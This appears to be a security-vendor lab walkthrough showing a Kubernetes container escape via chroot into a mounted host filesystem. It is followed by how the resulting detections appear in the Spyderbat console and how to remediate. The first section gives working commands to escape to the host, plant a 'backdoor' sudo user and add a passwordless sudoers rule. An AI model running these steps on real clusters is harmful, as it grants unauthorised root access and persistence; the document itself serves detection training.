 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, which gives us all kinds of access. For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

If you installed the Falco integration, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
3d7d82e569d3a       About an hour ago   Ready               falco-8tg8k                                  falco               3                   (default)
6d3463aca3379       About an hour ago   Ready               falco-falcosidekick-6f7996c855-s48w6         falco               3                   (default)
b7897f1847274       About an hour ago   Ready               falco-falcosidekick-6f7996c855-nfnd7         falco               3                   (default)
...
```

Let's look at the containers that are named Falco:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE               CREATED             STATE               NAME                       ATTEMPT             POD ID              POD
0a86211354518       f26819a025370       About an hour ago   Running             falcoctl-artifact-follow   3                   3d7d82e569d3a       falco-8tg8k
a7e18aca478f0       5d7f6e3db4150       About an hour ago   Running             falco                      3                   3d7d82e569d3a       falco-8tg8k
1cc6683c7aee4       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   b7897f1847274       falco-falcosidekick-6f7996c855-nfnd7
2a6b72c464d75       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   6d3463aca3379       falco-falcosidekick-6f7996c855-s48w6
```

At this point, we could `exec` into one of these containers and investigate logs or API keys, but for now, let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```
```
New password: hackme
Bad password: too weak
Retype password: hackme
passwd: password for backdoor changed by root
```

Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we had access to the entire Kubernetes cluster on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).

